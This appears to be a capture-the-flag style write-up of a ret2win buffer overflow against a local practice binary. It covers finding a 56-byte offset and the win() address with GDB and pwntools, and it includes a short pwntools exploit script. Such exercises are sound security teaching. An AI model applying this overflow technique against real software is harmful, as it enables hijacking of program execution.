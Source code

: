 ## Overview
This is a simple **ret2win** buffer overflow exploit. By analyzing the source code, we can determine that the program contains a vulnerable function that allows us to overwrite the return address and redirect execution to the `win()` function.

## Steps to Exploit
1. **Find the Buffer Offset**
   - Use GDB (`gdb -q ./vuln`) and `pattern_create` from `pwntools` to determine the exact offset where the return address is overwritten.
   - In this case, the offset is **56 bytes**.

2. **Find the Memory Address of the `win()` Function**
   - Use GDB to disassemble the binary (`disas win`) and note down the function address.
   - The address is **0x401186**.

3. **Craft the Exploit Payload**
   - Fill the buffer with 56 'A' characters.
   - Overwrite the return address with the address of `win()`.

## Exploit Code
```python
from pwn import *

context(arch='amd64', os='linux')
binary = './vuln'

# Addresses
win_addr = 0x401186
offset = 56 

payload = b'A' * offset + p64(win_addr)

# Start process with timeout
p = process(binary, timeout=2)

# Method 1: Automatic prompt handling
# p.sendlineafter(b':', payload)  # If exact match exists

# Method 2: Manual interaction
p.recvuntil(b'Enter input:')  # Match whatever your binary outputs
p.sendline(payload)

# Get output
print(p.clean().decode())
p.close()
```


